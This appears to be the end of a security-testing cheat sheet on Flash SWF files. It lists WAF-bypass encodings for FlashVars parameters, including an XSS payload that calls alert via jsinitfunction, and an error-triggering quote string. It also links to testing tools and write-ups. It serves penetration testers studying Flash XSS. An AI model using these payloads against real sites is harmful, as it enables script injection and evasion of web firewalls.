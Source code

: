 WAF bypass:
```none
param1=value1
pa%Xram1=val%Yue1
pa%=ram1=val%#ue1
pa%AXram1=val%B#ue1
File.swf?%#param1=value1&p2=v2
%#jsinitfunctio%gn=alert%601%60
```

Trigger Error:
```none
xxx"'(){}\"\'(){}\\'\\"(){}xxx
```


## Other tools

[Adobe Flex SDK](https://www.adobe.com/devnet/flex/flex-sdk-download.html) to compile Actionscript (mxmlc).  
[SWFIntruder](https://github.com/irsdl/updated-SWFIntruder) to test XSS.  
[Flashbang](https://cure53.de/flashbang) to find FlashVars.  


## External resources

- [Analysing SWF files for vulnerabilities by MLT](https://ret2libc.wordpress.com/2016/04/04/analysing-swf-files-for-vulnerabilities/)
- [Flash it baby! by IRSDL](http://media.wix.com/ugd/533dd4_c096c1fa67814318acb84d41a04fb258.pdf)
- [Finding XSS vulnerabilities in flash files by Smiegles](https://olivierbeg.com/finding-xss-vulnerabilities-in-flash-files/)
- [Setting a crossdomain.xml file for HTTP streaming](https://www.adobe.com/devnet/adobe-media-server/articles/cross-domain-xml-for-streaming.html)
